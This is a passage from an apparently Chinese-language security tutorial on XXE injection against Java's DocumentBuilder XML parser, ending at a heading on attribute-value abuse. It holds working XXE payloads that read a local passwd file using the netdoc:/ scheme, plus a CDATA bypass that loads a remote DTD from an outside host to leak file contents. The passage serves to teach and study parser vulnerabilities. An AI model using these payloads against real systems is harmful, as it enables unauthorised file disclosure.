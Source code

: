 主要将file://换成netdoc:/，如下：

```
<?xml version="1.0"?>
<!DOCTYPE data [
        <!ELEMENT data (#PCDATA)>
        <!ENTITY file SYSTEM "netdoc:/e:/passwd">
        ]>
<user>
    <name>netdoc</name>
    <sex>netdoc</sex>
    <age>&file;</age>
</user>
```

![img](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/8.png)

### 3、高级XXE攻击——直接反馈通道

这类攻击为高级的 XXE 攻击，用于绕过对基本的XXE攻击的限制和OOB（外带数据）攻击。

#### 绕过基本 XXE 攻击的限制

在有回显的基础上，将外部实体读取本地文件的部分拆分一下，如下：

bypass.xml

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
    <!ELEMENT data (ANY)>
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % goodies SYSTEM "file:///e:/passwd">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://192.168.43.201/xxe/bypass.dtd">
    %dtd;
]>
<user>
    <name>Mi1k7ea</name>
    <sex>male</sex>
    <age>&all;</age>
</user>
```

bypass.dtd

```
<!ENTITY all '%start;%goodies;%end;'>
```

运行即可触发XXE，并在回显中显示泄露的内容：

![img](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/7.png)

#### 滥用属性值的 XXE 攻击
